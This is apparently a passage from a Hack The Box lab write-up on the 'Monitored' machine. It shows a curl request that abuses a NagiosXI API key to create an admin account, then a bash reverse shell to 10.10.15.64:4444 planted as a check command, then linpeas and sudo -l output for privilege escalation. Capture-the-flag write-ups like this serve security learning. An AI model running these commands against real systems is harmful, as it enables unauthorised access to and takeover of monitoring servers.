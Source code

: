 Here we find the file `/nagiosxi/basedir/html/api/includes/utils-system.inc.php`
On line 112 we find the endpoint `user` which calls the function `api_system_add_user($args)`. In this function it details the args needed to create an account.

After that we can simply send a post request to create our account, with the `auth_level` of `admin`.
```bash
$ curl -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d 'username=cinder&email=cinder%40yo.com&name=Cinder&password=12345678&auth_level=admin' --insecure
```
# NagiosXI RCE
Now we can sign into the panel as an admin.

If we navigate to `Configure > Core Config Manager > Commands` we can add our own "check" command with a simple reverse shell payload: `bash -c 'bash -i -p >& /dev/tcp/10.10.15.64/4444 0>&1'`
![](/images/htb/monitored/nagiosPayload.png)

Then to get the command to actually run you can make a new service at `Configure > Core Config Manager > Services`, and select "payload" as our check command.
![](/images/htb/monitored/nagiosRCE.png)

After listening on port 4444 and pressing "Run Check Command", we now have a shell. 
# Priveledge Escalation
As usual to begin LPE enumeration, we'll run linpeas.

The first thing that catches my attention is some writeable executables:
```bash
╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services
/etc/systemd/system/multi-user.target.wants/mariadb.service could be executing some relative path
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
/etc/systemd/system/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
```

If we look at our `sudo -l`, we'll also find that we can run a bunch of files as root:
```bash
$ sudo -l
User nagios may run the following commands on localhost:
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```
